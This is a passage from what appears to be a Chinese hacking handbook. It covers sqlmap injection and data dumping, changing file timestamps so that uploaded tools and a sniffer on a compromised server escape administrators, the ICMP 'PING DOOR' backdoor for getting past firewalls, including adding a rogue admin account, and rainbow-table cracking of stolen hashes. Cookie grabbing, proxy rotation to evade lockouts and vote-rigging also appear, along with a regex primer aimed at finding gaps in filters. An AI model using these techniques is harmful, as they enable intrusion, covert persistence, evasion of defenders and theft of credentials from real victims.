[10:12:07] [INFO] testing if GET parameter 'jmdcw' is dynamic
[10:12:08] [INFO] confirming that GET parameter 'jmdcw' is dynamic
[10:12:09] [INFO] GET parameter 'jmdcw' is dynamic
[10:12:09] [INFO] testing sql injection on GET parameter 'jmdcw'
[10:12:09] [INFO] testing numeric/unescaped injection on GET parameter 'jmdcw'
[10:12:11] [INFO] confirming numeric/unescaped injection on GET parameter 'jmdcw'
[10:12:12] [INFO] GET parameter 'jmdcw' is numeric/unescaped injectable
remote DBMS: Microsoft SQL Server

[10:12:12] [INFO] fetching tables for database 'menglu'
[10:12:12] [INFO] fetching number of tables for database 'menglu'
[10:12:12] [INFO] query: SELECT LTRIM(STR(COUNT(name))) FROM menglu..sysobjects WHERE xtype IN ('u', 'v')
[10:12:12] [INFO] read from file 'sqlmap.txt': 100
[10:12:12] [INFO] query: SELECT TOP 1 name FROM menglu..sysobjects WHERE xtype IN ('u', 'v') AND name NOT IN (SELECT TOP 0 name FROM menglu..sysobjects WHERE xtype IN ('u', 'v') ORDER BY name ASC) ORDER BY name ASC
[10:12:12] [INFO] retrieved the length of query output: 10
[10:12:30] [INFO] resumed from file 'sqlmap.txt': ac...
[10:12:30] [INFO] retrieving pending 8 query output characters
```

中断的地方开始继续操作。想起以前为了导出所有数据需要几天几夜的不关机，现在有了这个工具就能让爱机好好地休养了。

这个功能使用的命令是：sqlmap -u "http://www.nohack.com/testsql.asp?id=1" -v 1 -o "sqlmap.log"，如果在注入中按“ctrl+c”中断程序，可以看到在目录下生成了一个“sqlmap.log”文件，如图10，里面记录着上次保存的进度。

要恢复中断的注入时，只需要把原来的语句后面加上一个“--resume”参数就可以了，完整的命令是：sqlmap -u "http://www.nohack.com/testsql.asp?id=1" -v 1 -o "sqlmap.log" --resume，如图11。

在图11中我们可以看到，提示从 text file 中恢复了继续的工作。

国内的注入工具基本上都是把注入语句封装在程序里面，很少有给我们自定义语句的地方。虽说手工注入可以达到最大限度的自定义语句注入，但是在得到回显方面又慢又费时费力，该工具的自定义语句功能是本人认为最大的亮点。

要自定义注入语句可以使用命令：sqlmap -u "http://www.nohack.com/testsql.asp?id=1" -v 1 -e “要执行的语句或查询”。

这个工具的主要功能就介绍到这里了，它还有很多参数，大家可以用“sqlmap -h”进行查看，此外在 doc 目录中还有一份非常详细的操作指南 README.html。

## 三十二、修改时间“隐藏”工具

如果有人问渗透中最重要的是什么，可能不同的人有不同的看法，个人认为最重要的是隐蔽性！技术上一时半会跟不上不要紧，只要入口点（即那台在网络中有漏洞的计算机肉鸡）的隐蔽性得到保证，就把这台肉鸡当作练习场吧。俗话说得好：“留得青山在，不怕没柴烧”，如果有一些内部的木马后门，隐蔽性高又免杀的话，那就更好了。但是我们菜鸟是很难做到这一点的，要想隐蔽就只有靠经验了，本节就给大家介绍一个小技巧，通过修改文件的时间来“隐藏”工具。

| 名称 | 修改日期 | 类型 | 大小 |
|---|---|---|---|
| DelSmallClass2_Alert.asp | 2004/1/28 17:05 | ASP 文件 | 2 KB |
| DelSmallClass3_submit.a... | 2004/1/31 0:26 | ASP 文件 | 2 KB |
| index.asp | 2004/2/2 21:19 | ASP 文件 | 4 KB |
| index_face.asp | 2004/1/31 0:08 | ASP 文件 | 3 KB |
| md5.asp | 2004/1/30 23:36 | ASP 文件 | 12 KB |
| ModifyBigClass1.asp | 2004/1/28 17:06 | ASP 文件 | 2 KB |
| ModifyBigClass2_submit... | 2004/1/31 0:26 | ASP 文件 | 2 KB |
| ModifyNews1.asp | 2004/2/3 18:36 | ASP 文件 | 3 KB |
| ModifyNews2.asp | 2004/1/28 17:06 | ASP 文件 | 4 KB |
| ModifyNews3_update.asp | 2004/1/31 0:26 | ASP 文件 | 2 KB |
| ModifyNews_Class1.asp | 2004/1/28 17:06 | ASP 文件 | 2 KB |
| ModifyNews_Class2.asp | 2004/1/28 17:06 | ASP 文件 | 2 KB |
| ModifyNews_Class3_up... | 2004/1/28 17:06 | ASP 文件 | 2 KB |
| ModifySmallClass1.asp | 2004/1/28 17:07 | ASP 文件 | 3 KB |
| ModifySmallClass2_sub... | 2004/1/31 0:26 | ASP 文件 | 2 KB |
| NewStart.asp | 2004/1/31 0:13 | ASP 文件 | 2 KB |
| NewStart_submit.asp | 2004/1/31 0:26 | ASP 文件 | 2 KB |
| Session.asp | 2004/1/31 0:15 | ASP 文件 | 1 KB |
| pic.ASP | 2009/6/5 12:04 | ASP 文件 | 2 KB |

图1

大家在获得 webshell 后，通常会上传一些工具进行下一步操作，这时有一点特别要注意，就是最好保证上传的文件与服务器上原文件的时间大体一致。因为服务器管理员在例行检查系统时有一招几乎是必用的，那就是利用时间查找可疑文件。因为有经验的管理员是知道有一些免杀木马是不容易被发现的，这就需要通过查看文件时间来进行新旧文件的区别，从中发现可疑文件。

```text
C:\Users\pc>setime
格式:setime filename time
例子:setime test.asp 20040715140810
C:\Users\pc>_
```

图2

```text
C:\Users\pc>dir dsniff.exe
驱动器 C 中的卷没有标签。
卷的序列号是 6C9E-C6E4

C:\Users\pc 的目录

2009/06/22 05:30 245,760 dsniff.exe
 1 个文件 245,760 字节
 0 个目录 18,593,476,608 可用字节
```

图3

如图1，我们看到大多数文件的修改日期都是2004年1月左右，最后一个文件 pic.asp 的日期是2009年6月，这样明显的异常情况管理员肯定能看出来。就算你拥有无与伦比的超强免杀木马后门，都会被怀疑上，因为时间的设置是系统自然生成的。

如果不想辛苦弄到的入口点被清理，一定注意要把后门文件的系统时间改掉，我们用个小工具来完成这个操作，是非常方便的，它的命令格式为：setime 要修改时间文件名 修改成的时间，如图2。

参数中的修改时间可以非常精确地设置到秒，比如图2当中的“20040715140810”，这串时间可能有的朋友还不了解是什么意思，我用间隔号作个区分，让大家能看得更清楚：2004|07|15|14|08|10，表示的时间是2004年07月15日14点08分10秒，下面看看在实战中如何修改文件的时间。

我们在拿到一个内网的入口点后，常做的一件事就是上传一个嗅探工具渗透内网。这样做的结果是服务器可能会变得比较卡，在一般的经验中，卡=中木马。有经验的管理员在杀毒无果的情况下（如果嗅探工具经过了免杀），就会以时间为条件来搜索，看看有没有可疑的文件。

所以上传嗅探工具后，应该把文件时间修改到和服务器上大部分文件时间一致。比如我们在目录中已经上传了一个 dsniff.exe 文件，可以看到上传的时间是2009年06月22日05点30分，如图3。我们来把文件时间修改下，比如改到07年，具体的时间要根据服务器上的情况来确定。执行命令：setime dsniff.exe 20070530181135，返回结果如图4。修改成功后，我们再用 dir 命令看看 dsniff.exe 的时间，结果如图5。

现在执行 dsniff.exe 进行嗅探操作，出现了服务器略微有点卡等情况时被管理员排查也比修改之前的安全性高了一些。建议大家对上传的重要文件都要有修改时间的意识，因为文件创建时间真的是一个很容易暴露的线索。

```text
C:\Users\pc>setime dsniff.exe 20070530181135
The Specific Time:2007-5-30 18:11:35
```

```text
C:\Users\pc>dir dsniff.exe
驱动器 C 中的卷没有标签。
卷的序列号是 6C0E-C6E4

C:\Users\pc 的目录

2007/05/30  18:11           245,760 dsniff.exe
               1 个文件        245,760 字节
               0 个目录 18,610,331,648 可用字节
```

## 三十三、PING DOOR 的原理和使用

关注网络安全的朋友，不管您是中过木马的菜鸟，还是研究木马的高手，相信对木马一点都不陌生。木马是我们隐藏在电脑里用来控制对方计算机的工具，当需要操纵目标计算机时，可以通过相应的端口连接上并进行操作。但是现在越来越多的计算机安装有防火墙，除了标准的绑定有服务的端口，如 FTP 服务的21端口、WEB服务的80端口等，其它的一概屏蔽，如图1，木马连接失败。

可能有的朋友会问，如果用反弹木马连接能否成功呢？当然也是连接不上的，因为现在的防火墙也提供了反向的 IP 屏蔽。木马的连接模式是端口到端口，服务器上的防火墙设置了禁止向内连接，正向木马就连接不上了；如果设置了禁止端口向外连接，反向木马也就连接不上了。

我们来看看如何禁止本机上的端口向外连接。从系统桌面开始，依次选择“开始”－“管理工具”－“本地安全策略”，如图2。


### 神兵之力


图3

进入后在“IP 安全策略，在本地计算机”上按鼠标右键，选择“创建 IP 安全策略”，如图3。


图4

点“下一步”，先给要创建的策略取个名字，这里我取为“禁止端口向外连接”，如图4。


图5

点“下一步”，在出现如图5的警告框时选“是”。

这时设置规则，如图6，点击下面的“添加”继续操作。


图6

这时来到“IP 筛选器列表”界面，如图7，其中有两个选项，一个是限制 ICMP 通讯，另一个是限制 IP 通讯。这种设置已经告诉了我们，ICMP 包和 IP 包是两个不同的概念，是受不同的方法限制的。我们先选择“所有 IP 通讯”，点击“下一步”。


图7

这时来到“筛选器”操作界面，如图8，这里选择“需要安全”，这是比“请求安全”更严厉的一条规则。


图8

www.nohack.cn

点击“下一步”，在如图9的界面中选择“我的 IP 地址”，继续“下一步”，选择协议类型为“TCP”，如图10。

继续“下一步”，选择“从任意端口”、“到任意端口”，如图11。


然后一直“下一步”直到完成设置。回到“本地安全设置”，现在在右边窗口中看到了我们创建的“禁止端口向外连接”，不过这时它还没启用。我们选择它，然后按鼠标右键，选择“指派”，这个 IP 策略就开始在我们的电脑上工作了，如图12。

费了这么大劲设置的这个东西有什么用呢？我们来试试，现在连接任意一个以前能打开的网站，发现不能打开了，如图13。现在大家该明白这个策略的作用了吧？它禁止了本地任意端口到外部任意端口的连接！试想在这种环境中，那些靠连接 web（即80端口）的反弹木马，如何能够生存呢？

不过我们换个思路，现在 PING 一下刚才能够访问的网站的地址会有什么结果呢？结果很神奇，竟然能 PING 通！如图14。按一般的理解，如果本地任意端口都不能与外界任意端口连接，应该处于“与世隔绝”状态才对，可是还有数据包能传递出去达到目标，这是怎么回事？


我们刚才设置 IP 策略时注意到，IP 筛选器列表有两个选项，TCP 限制和 ICMP 限制是两回事，而我们用的 PING，恰好正是 ICMP 包的一种，而刚才设置的 TCP 的 IP 策略是无法限制到 ICMP 包的。这就好比关上了城门而没有堵住地道，我们能用这个“地道”做一些事情。

先介绍一点 ICMP 包的基本常识和与其它数据包的区别：

> 在网络体系结构的各层次中，都需要控制，而不同的层次有不同的分工和控制内容。IP 层的控制功能是最复杂的，主要负责差错控制、拥塞控制等，任何控制都是建立在信息的基础之上的。在基于 IP 数据报的网络体系中，网关必须自己处理数据报的传输工作，而 IP 协议自身没有内在机制来获取差错信息并处理。为了处理这些错误，TCP/IP 设计了 ICMP 协议，当某个网关发现传输错误时，立即向信源主机发送 ICMP 报文，报告出错信息，让信源主机采取相应处理措施。它是一种差错和控制报文协议，不仅用于传输差错报文，还传输控制报文。

现在我们知道，它是控制协议，不需要端口号。TCP 和 UDP 能承载数据，但 ICMP 仅包含控制信息，一些防火墙将 ICMP 类型错误标记成端口。要记住，ICMP 不像 TCP 或 UDP 有端口，但它确实含有两个域：类型（type）和代码（code）。而且这些域的作用和端口也完全不同，也许正因为有两个域，所以防火墙常错误地标记它们。

请注意那段用粗体字标记的关于 ICMP 包的简要描述，这意味着，ICMP 包不怕端口被关闭，不怕普通的协议被限制。

设想，如果某电脑被我们获得了其 admin 权限，在上面放了木马，但是对方有所察觉，于是安装了防火墙。好了，现在不论你的木马多么免杀，也再也不能连接上了。假设对方的防火墙只把平时的 TCP、UDP 等数据包进行了限制，而没有关注 ICMP 包，那我们的数据就能通过 ICMP 包发送到计算机上，指挥上面的木马正常地执行功能。

这个设想为我们打开了一片新天地，这种木马被称为——PING DOOR，包含以下两个文件：


- icmpsrv.exe 服务端程序，使用 -install 参数安装成服务。
- icmpsend.exe 客户端程序，使用 icmpsend IP 进行控制。

先将这个服务端 icmpsrv 安装在肉鸡上，使用命令：icmpsrv -install，如图15。如果要删除它，命令是：icmpsrv -remove。

现在到我们本机上来连接安装了服务端的肉鸡，命令格式为：`icmpsend IP`，如图16，看到回显之后，就能输入命令了。

先试试使用命令：`net user`，如图17，成功地执行了。注意这个工具在执行时，会有一堆杂讯出来，例如图17中出现的“other ICMP Packets”。这个不要怕，只要返回的结果是正常的就行了。

我们来看看直接建立一个管理员账号，执行命令：`net user nohack hack123456 /add`，结果如图18，成功建立。接着可以用命令 `net user` 看看是不是已经建立了 `nohack` 这个用户。

这种 PING DOOR 最适合发挥的地方是在内网各计算机之间，因为安全意识在内网中经常被轻视，而且内网中的共享等又只用简单的防火墙限制，所以导致这个工具的利用率很高。


## 三十四、自己动手破解密码 hash

在入侵中，我们时常可以通过种种方法得到密码 hash，比如通过 SQL 注入或者在 MySQL 中执行 `SELECT Password('password')` 得到，似乎得到密码并不是复杂的事。不过很麻烦的是，得到的密码基本都是加过密的，比如采用最常见的 MD5 加密方式。

对于 MD5 方式的加密，我们可以通过一些 MD5 密码解密网站进行在线解密，如果加密很简单，是可以查出来的。使用方法很简单，如图1，在 `www.xmd5.org` 网站的提交栏输入要查询的密码 hash 后点击“给我转”即可。

如果运气好的话就能直接查到该 hash 的明文字符，如图2，其中“result”字样后的“123456”就是密码啦。

其它相关网站，如 `http://www.cmd5.com`、`http://www.xmd5.com` 等都提供这项服务，不过有些密码破解是要收费的。收费并不是关键，关键在于你就算肯为破解一个密码而付费，而破解的范围也十分有限（除开弱口令和长度在六位以下的组合口令）。其实我们完全可以不交费，而又能提高破解的成功率。

神兵之力  
www.nohack.cn

先简单介绍一下这种在线查询密码 hash 的原理，就是建立一个庞大的数据库系统，将密码 hash 与明文一一配对储存，如：

| 密码 hash         | 对应明文 |
|------------------|----------|
| 49ba59abbe56e057 | 123456   |
| 098950fc58aad83c | abcdef   |
| 28cb38d5f2608536 | abc123   |


图1


图2

当用户请求后，把用户提交的密码 hash 与储存在数据库里的 hash 进行对比，从而给出其匹配的明文。如果不存在，就提示查询不到。

这种类型的数据库我们在自己的电脑上也能建立，有一套被称为“彩虹表”的工具，它就可以建立一个庞大的、针对各种可能的字母组合预先计算好的哈希值的集合。不一定是针对 MD5 算法，各种算法都可以，有了它可以快速地破解各类密码。越是复杂的密码，需要的“彩虹表”就越大，现在主流的“彩虹表”都是 100G 以上。

这里使用的“彩虹表”工具名为 rainbowcrack，可以在 Windows 下使用，很适合刚学习网络安全的朋友。解压后进入目录，如图3，可以看到其中有 `rcrack.exe`、`rtdump.exe`、`rtgen.exe`、`rtsort.exe` 等几个工具，它们都有不同的用途：

- `rtsort.exe` —— 排序“彩虹表”，为 `rcrack.exe` 提供输入。
- `rcrack.exe` —— 使用排好序的“彩虹表”进行口令破解。
- `rtgen.exe` —— “彩虹表”生成器，生成口令、散列值对照表。

用这几个工具就能在我们的电脑上建一个密码数据库了，操作只需简单的三步：

- 1. 创建“彩虹表”
- 2. 整理“彩虹表”
- 3. 使用“彩虹表”

第一步，创建“彩虹表”用的工具是 `rtgen.exe`，这是整个过程中操作最复杂的，有好几个参数，用中文表示的各参数值的含义如下：


**散列算法**、**所用字符集**、**明文的最小长度**、**明文的最大长度**、**“彩虹表”参数**、**每份包含的数据条数**、**要生成数据份数**、**命名字符**

下面逐一介绍各个参数所包含的选项：

### 散列算法

可以选择生成 lm、md5、sha1 三种加密方式的密码表。lm 是一种早期的加密方式，也就是常见的 16 位 md5 加密方式，安全性不是太高，一般老的系统中还在采用；md5 加密是 32 位的 md5 加密；sha1 是数据库和 Windows 中用得比较多的加密方式。

### 所用字符集

意思是生成哪些字符的散列，是数字、字母、特殊符号还是全都包括。选项名称及所对应的字符如下：

```text
alpha                  = [ABCDEFGHIJKLMNOPQRSTUVWXYZ]
alpha-numeric          = [ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789]
alpha-numeric-symbol14 = [ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_+=]
all                    = [ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()-_+=~`[]{}\:;"'<>.,?/]
numeric                = [0123456789]
loweralpha             = [abcdefghijklmnopqrstuvwxyz]
loweralpha-numeric     = [abcdefghijklmnopqrstuvwxyz0123456789]
```

### 明文的最小长度、明文的最大长度

这两项是设定生成几位字符串的数据表，比如分别写上 1 和 8，意思是生成指定类型字符中从一位到八位的数据表。

### 彩虹表参数

一般只设为 0。

### 每份包含的数据条数、要生成数据份数

这两项的设置可以使你在管理如此庞大的数据时提高效率，比如设为 10000 和 10，表示生成的数据表中每一万条数据为一段，共生成十段，共十万条数据。在实际应用中，生成的份数尽可能地调大，与你所生成的大约数据量相等。

### 命名字符

是把数据生成后的“彩虹表”以一个关键字命名，以作区分。如图4中的“md5_alpha#1-7_0_100x16_test.rt”文件，其中的“test”就是在生成时指定的命名字符。

介绍完这几个参数后，我们用 `rtgen` 来生成一个“彩虹表”试试，这里生成一个六位数以内、以小写字母和数字组成的 MD5“彩虹表”，命令为：`rtgen md5 loweralpha 1 6 0 10000 50 nohack`，如图5。

命令执行成功后可以在目录下看到生成了一个名为“md5_loweralpha#1-6_0_10000x50_nohack.rt”的文件，如图6，文件名就是以我们刚才的参数构成的。

在生成时需要留意一下，如果生成时“plain charset”后的字符集不是你所指定的字符集，生成的“彩虹表”可能是错的，请检查一下你的设置。如图5，字符集为“abcdefghijklmnopqrstuvwxyz”，正是我指定的小写字母的集。如果像图7中这样出现乱码或不是指定字符集的情况，说明生成有错。


现在我们的第一步，也是最难的一步完成了。“彩虹表”生成后，不要急着用它来破解密码，因为这样生成的表是杂乱无章的，我们需要整理一下，这样破解速度才会快。

整理“彩虹表”的工具是 `rtsort`，我们可以进行排序，语法很简单：`rtsort 生成的彩虹表名`，如图8，很快就整理完毕了，接着就可以开始破解密码了。注意，整理“彩虹表”这一步是必须做的，否则无法破解。

破解密码使用的工具是 `rcrack.exe`，命令也非常简单：`rcrack 使用的彩虹表名 -h 密码hash` 或 `rcrack 使用的彩虹表名 -l mm.txt`，`-l` 参数后面的文本文件每行记录着一个 hash，如图9，这个参数是用于大批量破解的。

我们测试一下来破解一个密码，“lnuyyl”这串字符加密后的 32 位 md5 密码 hash 是：`ffe8db4cf1e028beaac903487c18ab9b`，我们使用命令：`rcrack md5_loweralpha#1-6_0_10000x50_nohack.rt -h ffe8db4cf1e028beaac903487c18ab9b`，如果你生成的数据表合理，很快就能查出结果，如图10。


图7


图8


图9

以上的应用只是为了举例说明，所以生成的“彩虹表”很小。在真正的应用中，生成的“彩虹表”一般至少在几百 M，甚至上千 G，我们可以自己生成或者从网上下载，用以完成更高难度的 hash 破解。在网上搜索“彩虹表”，会得到很多已经生成的“彩虹表”下载链接，如图11。


图10

只要你的硬盘足够大，你就有了自己的密码破解系统，能在你的入侵检测中帮很大的忙，能破解对方的密码，其价值不言而喻。


图11

## 三十五、黑客方便工具

### TouchNet 浏览器应用指南

“工欲善其事，必先利其器”，在学习网络安全知识和进行渗透测试时，合理地使用工具会让我们的工作效率提高不少。特别是网络安全这个领域，涉及的工具很广，非常需要一些好的整合工具。试想一下，如果执行一些小命令，比如 ping 网站 IP、获得本机 IP 等这些简单操作，我们都要进入工具所在目录，然后执行命令，实在是很费劲的事。


在网络安全中最常用的工具是什么？答案一定就是我们最常见的上网必备工具——浏览器了！不过无论你是使用的 IE、腾讯 TT 或是火狐浏览器，都只是大众化的产品，没有把进行网络安全检测常用的一些功能进行整合，本节中介绍的这款浏览器就是专门为黑客的常用操作而量身设计的。


www.nohack.cn

神兵之力

TouchNet 浏览器的主界面与一般的浏览器没有什么区别，如图1，不过它可以按“CTRL+Q”键隐藏或呼出浏览器。


另外，这个浏览器整合了翻译功能，能把英文的网站翻译成中文，便于我们从国外的网站上学习新的技术。比如访问国外著名黑客站点 `http://www.milw0rm.com/`，如图2，显示的全是英文信息。


我们选择菜单栏上的“翻译”→“英语 to 汉语（altavista）”，在新打开的页面中点击“Translate”，如图3，这样就可以把网站翻译成中文，如图4。

其实原理就是借用了网络在线翻译到这个浏览器上，但是这种整合却让我们可以信手拈来地方便使用。如果对翻译的结果不满意，而且你有更好的翻译网站，可以点击“翻译”→“自定义”，自己编辑翻译网址，如图5。

```text
TranslateEngines.ini - 记事本
文件(F) 编辑(E) 格式(O) 查看(V) 帮助(H)
Google 英语翻译 |http://translate.google.com/translate?sourceid=navclient&hl=en&u={url}
法语 to 英语 |http://www.systranlinks.com/systran/cgi?lp=fr_en&partner=demo-SystranSoft&f=32&urltext={url}
德语 to 英语 |http://www.systranlinks.com/systran/cgi?lp=de_en&partner=demo-SystranSoft&f=32&urltext={url}
意大利语 to 英语 |http://www.systranlinks.com/systran/cgi?lp=it_en&partner=demo-SystranSoft&f=32&urltext={url}
葡萄牙语 to 英语 |http://www.systranlinks.com/systran/cgi?lp=pt_en&partner=demo-SystranSoft&f=32&urltext={url}
日语 to 英语 |http://babel.altavista.com/urltrurl?url={url}&doit=done&lp=ja_en&tt=url&urltext=&doit=done
韩国语 to 英语 |http://babel.altavista.com/urltrurl?url={url}&lp=ko_en&tt=url&urltext=&doit=done
汉语 to 英语 |http://203.93.50.148:1234/*421{url}
英语 to 法语(systranlinks) |http://www.systranlinks.com/systran/cgi?lp=en_fr&partner=demo-SystranSoft&f=32&url
英语 to 德语 |http://www.systranlinks.com/systran/cgi?lp=en_de&partner=demo-SystranSoft&f=32&urltext={url}
英语 to 意大利语 |http://www.systranlinks.com/systran/cgi?lp=en_it&partner=demo-SystranSoft&f=32&urltext={url}
英语 to 葡萄牙语 |http://www.systranlinks.com/systran/cgi?lp=en_pt&partner=demo-SystranSoft&f=32&urltext={url}
英语 to 西班牙语 |http://www.systranlinks.com/systran/cgi?lp=en_es&partner=demo-SystranSoft&f=32&urltext={url}
英语 to 日语 |http://babel.altavista.com/urltrurl?tt=url&url={url}&lp=en_ja&doit=done&urltext=&doit=done
英语 to 韩国语 |http://babel.altavista.com/urltrurl?url={url}&doit=done&lp=en_ko&tt=url&urltext=&doit=done
英语 to 汉语(big5) |http://webtran.readworld.com/translate?url={url}%2Fms%2Ehtm&LangPair=259&mode=DestOnly
英语 to 汉语(readworld) |http://webtran.readworld.com/translate?url={url}
英语 to 汉语 |http://203.93.50.148:1234/*601{url}
英语 to 汉语(altavista) |http://babel.altavista.com/urltrurl?url={url}&lp=en_zh&tt=url&urltext=&doit=done
日语 to 汉语 |http://203.93.50.148:1234/*231{url}
汉语 to 英语(altavista) |http://babel.altavista.com/urltrurl?url={url}&lp=zh_en&tt=url&urltext=&doit=done
图5
```

只需要注意，`{url}` 表示变量当前的网页，把它放在翻译网站的提交待翻译网站链接的参数后面。编辑成功后，就能像刚才那样轻点鼠标完成翻译了。

这个浏览器的主要特色功能集中在“工具”菜单中，如图6，里面的“记事本”“绘画”“资源管理器”等可以方便地调用计算机中的相关程序，这里就不多作介绍了，总之是相当方便。

“编辑器”则相当于一个临时的便条纸，当我们在安全检测时，常常会发现一些临时的线索或信息需要暂时记录，用它就最方便不过了，如图7。编辑器里保存的信息不需要你按保存，当你点右上角的“叉叉”进行关闭时就会自动保存，防止信息丢失。至于它的方便性，作过 hack 的一定会明白。

“该网页的小甜点”是翻译上的 BUG，其实就是抓取和编辑 cookie 的工具，是安全检测中应用率相当高的一个功能，只要在当前页面使用这个功能即可得到相关的 cookie，如图8。

点击“分析当前网页”，在浏览器下方会详细显示当前页面的资源情况，如 cookie、提交表单的页面、调用的脚本、包含的链接等信息，如图9。

其中的链接信息对于手工查找注入漏洞非常方便，如图10。

“IP工具”中包含两个小功能，一是获得自己的 IP 地址，如图11，另一个是获得当前页面的 IP 地址，如图12。获得当前页面的 IP 地址在对多域名的网站进行检测时非常有用，因为我们要辨别每一个域是否……


www.nohack.cn

在某 IP 服务器上，或是否在同一子网。

图10

最后说说堪称该工具绝活的功能：定时自动切换代理 IP 地址！打开“工具”→“多代理服务器”→“整理代理服务器”，如图13。

选中“启用代理服务器”和“改变伪装选项”，并且在“间隔时间”一栏中设置合适的时间。点击“输入从文件”，把一个文本文件中保存的代理列表导入，文件中代理的格式为“xx.xxx.xx.xx:端口”，如图14。

图11

图12

点击“确定”以后，浏览器将会在设定的时间间隔中轮次切换 IP，这种切换是工具自动的，非常快，对于检测一些有锁定阈值（即多少时间内发送了过多的不安全信息）的网站有作用，还可以用来很方便地刷投票，呵呵。

图13

该工具是一个方便的小助手，希望读者们能够学会使用它。在以后的日子里，它能帮你解除很多冗余的操作。

图14

# 第三章 全副武装

## 三十六、认识正则表达式

正则表达式，这五个字可能会让许多读者如坠雾里，许多对网络安全知识涉猎得还不是很深的朋友的确会对这个词感到比较陌生。正则表达式以我个人的理解来说，就是以一段精练的字符表达一个高度概括的含义。

举个小例子来说明一下，假设要你表示从 1 到 10 的整数，你打算怎么表示出来呢？我想不外乎有两种写法，一种是 1、2、3、4、5、6、7、8、9、10；另一种可以用 1-10 表示，1-10 就很有点正则表达式的意思了。

正则表达式对于我们阅读和理解脚本是有关键作用的，因为过滤代码很多时候采用了正则表达式的书写手法，它在脚本过滤中是作为搜索条件存在的。脚本运行到这里，全根据正则表达式中所表达的字符条件与被提交的数据进行对比，看看是否吻合，如吻合则说明在被过滤之列。

如“/ +/”、“$str”是一个过滤空格的正则表达式，如果正则表达式中有这一条，则脚本验证客户端提交的数据时，发现空格就会被过滤掉。

正则表达式和我们普通的脚本代码是不同的，所以完全有可能出现“读得懂代码，看不懂正则表达式”的情况。能读懂正则表达式，才能明白脚本作者在代码中过滤了哪些字符，从而找到突破口。

打开网站脚本的过滤部分，常常能看到如图1的代码，这些就是起过滤作用的正则表达式。

图1

不得不承认正则表达式的书写样式太不友好了，如果没有任何基础，能看懂的人恐怕不多。而且一堆如此奇怪的字符在一起，可能很多读者看起来就已经心头暗暗发紧，觉得似乎很难了。

以笔者的个人经验来说，正则表达式是相当简单的，并不是一些专业的资料上说的那么难于看懂。之所以说它简单，是因为正则表达式都是“死”的，就那几种固定的模式，再加上在不同的环境（如 SQL、Word、脚本等）中的略有不同，可以像小时候查字典一样，对照着进行认识和学习。

下面就给出正则表达式的“字典”，上面的是字符，下面的是描述：

- `\` 将下一个字符标记为一个特殊字符、或一个原义字符、或一个后向引用、或一个八进制转义符。例如，`'n'` 匹配字符 `"n"`；`'\n'` 匹配一个换行符；序列 `'\\'` 匹配 `"\\"`；而 `"\("` 则匹配 `"("`。
- `^` 匹配输入字符串的开始位置。如果设置了 RegExp 对象的 Multiline 属性，`^` 也匹配 `'\n'` 或 `'\r'` 之后的位置。
- `$` 匹配输入字符串的结束位置。如果设置了 RegExp 对象的 Multiline 属性，`$` 也匹配 `'\n'` 或 `'\r'` 之前的位置。
- `*` 匹配前面的子表达式零次或多次。例如，`zo*` 能匹配 `"z"` 以及 `"zoo"`。`*` 等价于 `{0,}`。
- `+` 匹配前面的子表达式一次或多次。例如，`'zo+'` 能匹配 `"zo"` 以及 `"zoo"`，但不能匹配 `"z"`。`+` 等价于 `{1,}`。
- `?` 匹配前面的子表达式零次或一次。例如，`"do(es)?"` 可以匹配 `"do"` 或 `"does"` 中的 `"do"`。`?` 等价于 `{0,1}`。
- `{n}` n 是一个非负整数，匹配确定的 n 次。例如，`'o{2}'` 不能匹配 `"Bob"` 中的 `'o'`，但是能匹配 `"food"` 中的两个 `o`。
- `{n,}` n 是一个非负整数，至少匹配 n 次。例如，`'o{2,}'` 不能匹配 `"Bob"` 中的 `'o'`，但能匹配 `"foooood"` 中的所有 `o`。`'o{1,}'` 等价于 `'o+'`；`'o{0,}'` 则等价于 `'o*'`。
- `{n,m}` m 和 n 均为非负整数，其中 `n<=m`，最少匹配 n 次且最多匹配 m 次。例如，`"o{1,3}"` 将匹配 `"foooood"` 中的前三个 `o`。`'o{0,1}'` 等价于 `'o?'`。请注意在逗号和两个数之间不能有空格。
- `?` 当该字符紧跟在任何一个其它限制符（比如：`*`、`+`、`?`、`{n}`、`{n,}`、`{n,m}` 等）后面时，匹配模式是非贪婪的。非贪婪模式尽可能少地匹配所搜索的字符串，而默认的贪婪模式则尽可能多地匹配所搜索的字符串。例如，对于字符串 `"0000"`，`'o+?'` 将匹配单个 `"o"`，而 `'o+'` 将匹配所有 `'o'`。
- `.` 匹配除 `"\n"` 之外的任何单个字符。要匹配包括 `'\n'` 在内的任何字符，请使用像 `'[.\n]'` 的模式。
- `(pattern)` 匹配 pattern 并获取这一匹配。所获取的匹配可以从产生的 Matches 集合得到，在 VBScript 中使用 SubMatches 集合，在 Visual Basic Scripting Edition 中则使用 `$0…$9` 属性。要匹配圆括号字符，请使用 `'\('` 或 `'\)'`。
- `(?:pattern)` 匹配 pattern 但不获取匹配结果，也就是说这是一个非获取匹配，不进行存储供以后使用。这在使用“或”字符（`|`）来组合一个模式的各个部分时很有用。例如，`'industr(?:y|ies)'` 就是一个比 `'industry|industries'` 更简略的表达式。
- `(?=pattern)` 正向预查，在任何匹配 pattern 的字符串开始处匹配查找字符串。这是一个非获取匹配，也就是说，该匹配不需要获取供以后使用。例如，`'Windows (?=95|98|NT|2000)'` 能匹配 `"Windows 2000"` 中的 `"Windows"`，但不能匹配 `"Windows 3.1"` 中的 `"Windows"`。预查不消耗字符，也就是说，在一个匹配发生后，在最后一次匹配之后立即开始下一次匹配的搜索，而不是从包含预查的字符之后开始。
- `(?!pattern)` 负向预查，在任何不匹配 pattern 的字符串开始处匹配查找字符串。这是一个非获取匹配，也就是说，该匹配不需要获取供以后使用。例如，`'Windows (?!95|98|NT|2000)'` 能匹配 `"Windows 3.1"` 中的 `"Windows"`，但不能匹配 `"Windows 2000"` 中的 `"Windows"`。预查不消耗字符，也就是说，在一个匹配发生后，在最后一次匹配之后立即开始下一次匹配的搜索，而不是从包含预查的字符之后开始。
- `x|y` 匹配 x 或 y。例如，`'z|food'` 能匹配 `"z"` 或 `"food"`；`'(z|f)ood'` 则匹配 `"zood"` 或 `"food"`。
- `[xyz]` 字符集合，匹配所包含的任意一个字符。例如，`'[abc]'` 可以匹配 `"plain"` 中的 `'a'`。
- `[^xyz]` 负值字符集合，匹配未包含的任意字符。例如，`'[^abc]'` 可以匹配 `"plain"` 中的 `'p'`。
